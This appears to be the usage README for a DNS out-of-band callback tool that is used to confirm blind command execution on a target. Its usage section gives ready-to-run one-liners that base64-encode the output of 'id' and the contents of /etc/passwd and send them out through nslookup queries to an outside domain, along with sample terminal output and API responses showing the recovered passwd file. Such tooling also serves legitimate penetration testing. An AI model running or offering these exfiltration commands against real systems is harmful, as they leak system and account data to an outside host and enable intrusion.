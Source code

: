 #Usage

###start###
nohup python checkvul.py 2>&1 &

###query###

Execute The Following Command On Your Target:

id |base64 -w60|cat -n|awk '{print $2"."$1".xdebug.info"};'|xargs -n 1 nslookup

##############################################################################################
root@vultr:~# id |base64 -w60|cat -n|awk '{print $2"."$1".xdebug.info"};'|xargs -n 1 nslookup
Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.xdebug.info
Address: 127.0.0.1
##############################################################################################

Access following API:
http://127.0.0.1/_query

Response:

"""
ECHO

uid=0(root) gid=0(root) groups=0(root)

****************************************************************************************************
DNS
dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.xdebug.info. 45.32.103.184 2018-11-19 16:36:28
1.xdebug.info. 45.32.103.184 2018-11-19 16:36:28
xdebug.info. 45.32.103.184 2018-11-19 16:36:28
****************************************************************************************************

""""

###check###

nslookup check.7b0f687d4d6d.xdebug.info

######################################################
root@vultr:~# nslookup check.7b0f687d4d6d.xdebug.info
Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	check.7b0f687d4d6d.xdebug.info
######################################################

Request API:
http://localhost/_check?type=dns&uuid=7b0f687d4d6d

Response JSON:
{"result": 1, "uuid": "7b0f687d4d6d", "log": "check.7b0f687d4d6d.xdebug.info.\t45.32.103.184\t2018-11-19 16:22:41"}

###echo###

cat /etc/passwd |base64 -w60|cat -n|awk '{print $2"."$1".8b0f687d4d6d.xdebug.info"};'|xargs -n 1 nslookup

####################################################################################################
root@vultr:~# cat /etc/passwd |base64 -w60|cat -n|awk '{print $2"."$1".8b0f687d4d6d.xdebug.info"};'|xargs -n 1 nslookup
Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6.1.8b0f687d4d6d.xdebug.info
Address: 127.0.0.1

Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6.2.8b0f687d4d6d.xdebug.info
Address: 127.0.0.1

Server:		108.61.10.10
Address:	108.61.10.10#53
...
...
####################################################################################################

Request API:
http://localhost/_echo?type=dns&uuid=8b0f687d4d6d

Response JSON:
{"result": "root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\nsystemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false\nsystemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false\nsystemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false\nsystemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false\nsyslog:x:104:108::/home/syslog:/bin/false\n_apt:x:105:65534::/nonexistent:/bin/false\nlxd:x:106:65534::/var/lib/lxd/:/bin/false\nmessagebus:x:107:111::/var/run/dbus:/bin/false\nuuidd:x:108:112::/run/uuidd:/bin/false\ndnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false\nsshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin\nntp:x:111:115::/home/ntp:/bin/false\nrdnssd:x:112:65534::/var/run/rdnssd:/bin/false\nredis:x:113:116::/var/lib/redis:/bin/false\nmysql:x:114:117:MySQL Server,,,:/nonexistent:/bin/false\n", "uuid": "8b0f687d4d6d", "log": "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6.1.8b0f687d4d6d.xdebug.info.\t45.32.103.184\t2018-11-19 16:27:31"}
